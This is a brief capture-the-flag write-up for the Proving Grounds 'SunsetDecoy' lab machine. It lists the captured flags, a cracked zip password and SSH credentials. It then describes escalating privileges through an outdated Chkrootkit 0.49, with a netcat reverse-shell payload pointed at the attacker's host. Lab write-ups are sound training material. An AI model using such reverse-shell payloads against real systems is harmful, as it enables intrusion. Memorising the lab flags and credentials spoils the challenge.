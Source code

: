 # Proving Grounds SunsetDecoy

> Saikat Karmakar | Mar 17:2021

```
ip = 192.168.224.85
```
-------------------------------------------------------------------------------

1. user flag
```
8e7d3405cd1a0ddaf0c427d0f508d080
```
2. root flag
```
14139500b734f4bebb0dd7fa9f5d8861
```



--
-----------
***Notes***
----------
cracked zip pass : manuel

ssh creds
```
296640a3b825115a47b68fc44501c828 : server
```
run pspy64

got a outdated program running Chkrootkit 0.49
https://www.exploit-db.com/exploits/33899

>payload
	echo "/usr/bin/nc -e /bin/sh 192.168.49.224 4444" > update 
	run the bin honeypot.decoy
	select the av scan
	get the shell


